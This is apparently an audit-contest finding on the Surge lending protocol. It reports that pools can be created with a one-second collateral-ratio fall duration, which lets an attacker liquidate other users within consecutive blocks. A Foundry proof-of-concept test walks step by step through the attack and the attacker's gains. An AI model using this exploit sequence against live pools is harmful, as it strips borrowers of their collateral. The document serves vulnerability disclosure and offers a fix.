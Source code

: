 Respx

high

# Pools can be created that can be liquidated instantly

## Summary
A pool can be created with a surge duration (`COLLATERAL_RATIO_FALL_DURATION`) of one second. All the other parameters of the pool can be standard.

An attacker can have a reasonable expectation of being able to put two transactions in consecutive blocks by using Flashbots or being a miner/validator.

## Vulnerability Detail
With transactions in two consecutive blocks, an attacker can do the following:
### First Block
Push the pool into surge status by adding loan/collateral tokens and borrowing at the maximum rate and then withdrawing large numbers of loan tokens. This can push the utilisation rate past the surge threshhold.
### Second Block
As the fall duration is only one second, the collateralisation rate will now be at minimum (`MIN_RATE`), which could well be zero. The attacker now liquidates all of the positions of all other users and withdraws all of their own tokens.
A proof of concept of this attack is below. Add to `Pool.t.sol`:
```Solidity
    function testInstantDrop() external {
        address alice = 0xaAaAaAaaAaAaAaaAaAAAAAAAAaaaAaAaAaaAaaAa;
        address bob = 0xbBbBBBBbbBBBbbbBbbBbbbbBBbBbbbbBbBbbBBbB;
        address cynthia = 0xCcCCccccCCCCcCCCCCCcCcCccCcCCCcCcccccccC;
        address davros = 0xDDdDddDdDdddDDddDDddDDDDdDdDDdDDdDDDDDDd;

        uint amount = 1e18;
        MockERC20 collateralToken = new MockERC20(amount, 18);
        MockERC20 loanToken = new MockERC20(amount * 2, 18);
        Pool pool = factory.deploySurgePool(
            IERC20(address(collateralToken)), 
            IERC20(address(loanToken)), 
            50e18, // _maxCollateralRatioMantissa
            0.8e18, // _surgeMantissa
            1, // _collateralRatioFallDuration << NOTE
            1e15, // _collateralRatioRecoveryDuration
            0.1e18, // _minRateMantissa
            0.4e18, // _surgeRateMantissa
            0.6e18 // _maxRateMantissa
        );

        loanToken.transfer(alice, 1_000);
        loanToken.transfer(davros, 10_000);
        collateralToken.transfer(alice, 1_000);
        collateralToken.transfer(bob, 1_000);
        collateralToken.transfer(cynthia, 1_000);
        collateralToken.transfer(davros, 1_000);

        // Alice provides some loan tokens
        vm.startPrank(alice);
        loanToken.approve(address(pool), type(uint).max);
        pool.deposit(1_000);
        vm.stopPrank();

        emit log_named_uint("UTIL:",lens.getUtilizationMantissa(address(pool)));

        // Bob borrows at 30:1 (well below max)
        vm.startPrank(bob);
        collateralToken.approve(address(pool), type(uint).max);
        pool.addCollateral(bob, 10);
        pool.borrow(300);
        vm.stopPrank();

        // Cynthia borrows at 10:1 (deeply below max)
        vm.startPrank(cynthia);
        collateralToken.approve(address(pool), type(uint).max);
        pool.addCollateral(cynthia, 20);
        pool.borrow(200);
        vm.stopPrank();

        emit log_named_uint("UTIL:",lens.getUtilizationMantissa(address(pool)));

        // All is well. Move forward 10 seconds
        skip(10);

        // Now Davros enters the scene. He knows that he can get the first transaction in the
        // next block.
        // He wants to push up the utilisation rate.
        // He deposits some more loan tokens and borrows on them at max rate.
        vm.startPrank(davros);
        loanToken.approve(address(pool), type(uint).max);
        pool.deposit(9_500);
        collateralToken.approve(address(pool), type(uint).max);
        pool.addCollateral(davros, 90); // borrows at max rate (50:1)
        pool.borrow(4_500);
        pool.withdraw(5_500); // withdraw all available tokens
        vm.stopPrank();

        // We now have 100% utilisation
        uint maxUtil = lens.getUtilizationMantissa(address(pool));
        assertEq(maxUtil, 1e18);

        emit log_named_uint("UTIL:",maxUtil);
        emit log_named_uint("COL:",lens.getCollateralRatioMantissa(address(pool)));


        // We advance 1 second
        skip(1);

        emit log_named_uint("COL:",lens.getCollateralRatioMantissa(address(pool)));

        //Davros comes in fast, as expected
        vm.startPrank(davros);
        emit log_named_uint("DAVROS LOAN:",loanToken.balanceOf(davros));
        emit log_named_uint("DAVROS COLLATERAL:",collateralToken.balanceOf(davros));
        pool.liquidate(bob, type(uint).max);
        emit log_named_uint("DAVROS LOAN:",loanToken.balanceOf(davros));
        emit log_named_uint("DAVROS COLLATERAL:",collateralToken.balanceOf(davros));
        pool.liquidate(cynthia, type(uint).max);
        emit log_named_uint("DAVROS LOAN:",loanToken.balanceOf(davros));
        emit log_named_uint("DAVROS COLLATERAL:",collateralToken.balanceOf(davros));
        pool.liquidate(davros, type(uint).max);
        emit log_named_uint("DAVROS LOAN:",loanToken.balanceOf(davros));
        emit log_named_uint("DAVROS COLLATERAL:",collateralToken.balanceOf(davros));
        pool.withdraw(type(uint).max);
        emit log_named_uint("DAVROS LOAN:",loanToken.balanceOf(davros));
        emit log_named_uint("DAVROS COLLATERAL:",collateralToken.balanceOf(davros));
        vm.stopPrank();

        // Davros has acquired 30 collateral tokens for 500 loan tokens.
        // That is a price of just 16.7. bob and cynthia lose all their collateral in one second.

        // alice can still withdraw. Her loan tokens are fine.
        vm.startPrank(alice);
        pool.withdraw(type(uint).max);
        vm.stopPrank();

    }
```

## Impact
Users can be liquidated without warning, losing their collateral tokens at a potentially great loss. The more cautious the user, the heavier their loss would be.

## Code Snippet
https://github.com/Surge-fi/surge-protocol-v1/blob/b7cb1dc2a2dcb4bf22c765a4222d7520843187c6/src/Pool.sol#L61
The minimum value for `COLLATERAL_RATIO_FALL_DURATION` is set at 1 second on this line.

## Tool used

Manual Review

## Recommendation
Implement a higher minimum `COLLATERAL_RATIO_FALL_DURATION` in `Pool.sol` to prevent instant liquidations. Rapid liquidations will still be a threat, however. Attempt to educate users about the impact of the fall duration to mitigate this.
